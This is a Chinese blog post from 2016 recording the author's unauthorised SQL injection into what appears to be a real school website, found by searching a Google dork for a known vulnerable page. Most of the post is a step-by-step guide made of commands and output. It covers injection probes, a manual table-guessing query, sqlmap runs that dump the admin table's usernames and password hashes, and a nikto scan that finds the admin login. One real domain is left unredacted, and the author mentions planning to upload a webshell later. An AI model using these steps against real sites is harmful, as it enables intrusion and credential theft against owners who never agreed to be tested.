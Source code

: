```yaml
---
layout: post
title:  "一次Sql注入记录"
categories: 不折腾被变羊
tags:  Hacker Sql
---
```


* content
{:toc}


## 0x00 背景

菜鸟级别的sql注入。

## 0x01 踩点

现在sql注入的漏洞已经不太好找了，大部分的网站都对这方面做好了防范，因此如果你继续使用`inurl:asp?id=`这种语法来查找试点，其实也挺困难的，很大的可能是找了很久都找不到，打消积极性。

所幸有很多现有的漏洞，比如搜关键字`inurl:TeachView.asp`，这是一个已知的漏洞，很早前在乌云上就有了，但是还有很多带着漏洞的网站在运行，因此，在百度上一搜，大把大把的......





### sql注入漏洞检测三部曲

**第一步：**

```
http://www.example.com/TeachView.asp?id=1'
#网页应该会变化，一般出现个错误界面，里面有错误代码,比如下面的信息：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'[Microsoft][ODBC Microsoft Access Driver] 语法错误 (操作符丢失) 在查询表达式 'id=1鈥' 中。/TeachView.asp，行 5
```

**第二步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=1
#网页应该是正常的。
```

**第三步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=2

#网页有出错了，但是和之前的不一样了。
ADODB.Field 错误 '80020009'BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。/TeachView.asp，行 0

```

## 0x02 sql注入

sql注入分手工和工具注入。目前网上大部分都是教各种工具的用法，其实最好还是先自己尝试手动试一下，至少能了解大致的思路，比如怎么猜数据库名、字段，然后再使用工具。

### 手动注入举例

其实我也不怎么会手动注入，只是自己尝试几个后就用工具了，比较懒，以后看心情学了。很多猜测技巧，网上有现成的！

```
#举个小栗子，猜测表名
http://www.example.com/TeachView.asp?id=1 and (select count(*) from admin )>0
```

### sqlmap

当发现自己动手实在猜不出来结果后，直接上工具，kali自带sqlmap就够用，看一下帮助文档，开搞。

*下面记录，忽略大部分没用的信息，并且隐藏了所有我意识到的真实的数据。*

**先试下能不能看到所有数据库：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dbs

......

web server operating system: Windows 2003 or XPweb application technology: ASP.NET,
Microsoft IIS 6.0,
ASPback-end DBMS: Microsoft Access[02:15:55] [WARNING] on Microsoft Access
it is not possible to enumerate databases (use only '--tables')
......

```

嗯，貌似不用枚举所有的db名称，但是知道了服务器的情况，剩了nmap自己扫了。貌似版本都很低，看来我也就配这种老系统了......

**那直接看一下表名：**

```
~$ sqlmap -u "http://www.yxqyxzx.com/TeachView.asp?id=1" --tables
......
[02:19:01] [INFO] fetching tables for database: 'Microsoft_Access_masterdb'[02:19:01] [INFO] fetching number of tables for database 'Microsoft_Access_masterdb'
......
[02:19:55] [INFO] retrieved: admin
......

```

我很好奇，之前都搜不出来db名，这次直接就默认了一个db的名字，个人猜测，sqlmap是通过这个web程序的权限来看数据库，那么通过这个web入口应该默认到这个数据库中。

数据表比较多，暂时只关注最主要的admin表。

**然后要尝试获取字段：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin

......
[02:53:46] [INFO] retrieved: id[02:53:52] [INFO] retrieved: adminname[02:55:08] [INFO] retrieved: adminpassword
......
```

**接着就是获取帐号密码：**

其实帐号可以自己猜一些，手动注入的时候可以试试，比如admin、administrator什么的，怎么手动获取密码我还不会。

```
sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin -C adminnamDatabase:
Microsoft_Access_masterdbTable: admin[2 entries]+----+-----+-----+------------------+----------+-----------+------------------+| id | url | num | title            | username | adminname | adminpassword    |+----+-----+-----+------------------+----------+-----------+------------------+| 1  | NULL | 198 | OY\x7f\x8es\x89- || admin    | 7a57a5a743894a0e || 4  | NULL | 472 | OY\x7f\x8es\x89- || admin2    | 7a57a5a743894a0e |

```

好了，现在获取到了帐号和密码的MD5值，然后上网解密一下就行了。

## 0x03 后台地址查找

查找后台地址的时候，我很靠谱的使用了手动查找，各种inurl就是搜不出来后台，最后看了一下kali里面有一个nikto，看一下帮助文档，感觉很傻瓜的样子。

```
~$ nikto -host http://www.example.com

- Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          *.*.*.*

+ Target Hostname:    www.example.com

+ Target Port:        *

+ Start Time:        2016-03-06 02:39:37 (GMT8)

---------------------------------------------------------------------------

......

+ Multiple index files found: /index.html, /index.asp

......

+ /admin/login.asp: Admin login page/section found.

+ /login.asp: Admin login page/section found.

......

```

**然后根据前面的帐号密码就可以很开心的进去了。**

## 0xFF 总结

个人感觉，上面记录的方法应该是非常不前卫的，因为大部分网站都很那找到这种漏洞了，但是思想应该还是比较相近的，可以学习一下整个思路，然后与时俱进地学习。

拿到管理员帐号后，可以做更多事，比如上传webshell、提权什么乱七八糟的，这就留到以后了。

第一次入侵成功后，其实没有什么成就感，也没有什么破坏欲，最大的感受就是，好坏就在一念之差了。



***
2016-03-06 22:00:00 hnds
